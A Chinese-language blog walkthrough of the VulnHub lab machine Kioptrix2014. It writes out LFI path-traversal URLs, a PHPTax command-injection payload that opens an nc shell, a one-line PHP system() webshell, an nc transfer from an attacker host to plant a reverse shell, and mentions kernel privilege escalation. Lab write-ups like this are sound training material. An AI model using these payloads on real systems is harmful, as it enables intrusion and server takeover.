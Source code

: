 ```yaml
---
layout: post
title:  "kioptrix2014"
description: walkthrough
category: vulnhub
---
```

# kioptrix2014

>页面源码信息利用
>
>useragent伪装
>
>freebsd apache22的设置文件位置
>
>webshell传输文件
>
>freebsd 9.0内核提权

常规扫描

得到结果80和8080

8080：

![image-20200608224821434]({{ site.url }}/assets/Untitled.assets/image-20200608224821434.png)



80端口：

![image-20200608223742956]({{ site.url }}/assets/Untitled.assets/image-20200608223742956.png)



源码中发现线索

![image-20200608223819494]({{ site.url }}/assets/Untitled.assets/image-20200608223819494.png)

pChart2.1.3/index.php

搜索漏洞。

![image-20200608223906718]({{ site.url }}/assets/Untitled.assets/image-20200608223906718.png)

发现可以利用文件包含

![image-20200608223941736]({{ site.url }}/assets/Untitled.assets/image-20200608223941736.png)

验证：

```html
hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
http://192.168.43.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```

![image-20200608224417067]({{ site.url }}/assets/Untitled.assets/image-20200608224417067.png)

验证成功

根据线索查找设置文件

![image-20200608224702860]({{ site.url }}/assets/Untitled.assets/image-20200608224702860.png)

![image-20200608231901171]({{ site.url }}/assets/Untitled.assets/image-20200608231901171.png)

利用现有LFI查看设置文件

```bash
http://192.168.43.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

找到8080端口所需要的useragent



![image-20200608232052099]({{ site.url }}/assets/Untitled.assets/image-20200608232052099.png)

```bash
Mozilla/4.0 Mozilla4_browser
```

在firefox中利用插件伪装useragent

![image-20200608233129036]({{ site.url }}/assets/Untitled.assets/image-20200608233129036.png)

成进入

![image-20200608233241443]({{ site.url }}/assets/Untitled.assets/image-20200608233241443.png)

搜索漏洞，发现存在远程代码执行![image-20200608233401733]({{ site.url }}/assets/Untitled.assets/image-20200608233401733.png)

![image-20200608233522894]({{ site.url }}/assets/Untitled.assets/image-20200608233522894.png)

```BASH
192.168.43.139:8080/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
```

尝试按漏洞利用文件中描述的方法绑定shell，但是无法正确通讯

稳妥办法，写一个websehll先

```bash
http://192.168.43.139:8080/phptax/drawimage.php?pfilez=xxx;echo%20%22%3C?php%20system(%5C$_GET%5B%27m%27%5D);%20?%3E%22%20%3E%20evil.php;&pdf=make


echo "<?php system(\$_GET['m']); ?>" > evil.php
```

![image-20200609002905591]({{ site.url }}/assets/Untitled.assets/image-20200609002905591.png)

然后通过webshell，上传php rshell

![image-20200609002705267]({{ site.url }}/assets/Untitled.assets/image-20200609002705267.png)

![image-20200609002550470]({{ site.url }}/assets/Untitled.assets/image-20200609002550470.png)

![image-20200609003011609]({{ site.url }}/assets/Untitled.assets/image-20200609003011609.png)

由于目标机器wget不存在，利用webshell 控制nc传递文件

```bash
http://192.168.43.139:8080/phptax/evil.php?m=nc 192.168.43.66 1234 > reverse_shell.php
```

![image-20200609003422717]({{ site.url }}/assets/Untitled.assets/image-20200609003422717.png)

![image-20200609003453814]({{ site.url }}/assets/Untitled.assets/image-20200609003453814.png)

地址栏执行，得到shell

```bash
http://192.168.43.139:8080/phptax/reverse_shell.php
```

![image-20200609004256214]({{ site.url }}/assets/Untitled.assets/image-20200609004256214.png)

常规检查发现内核版本，适合内核提权

![image-20200609004235936]({{ site.url }}/assets/Untitled.assets/image-20200609004235936.png)

![image-20200609004453248]({{ site.url }}/assets/Untitled.assets/image-20200609004453248.png)

没有wget，再次使用webshell 利用 nc传递过去

内核提权成功

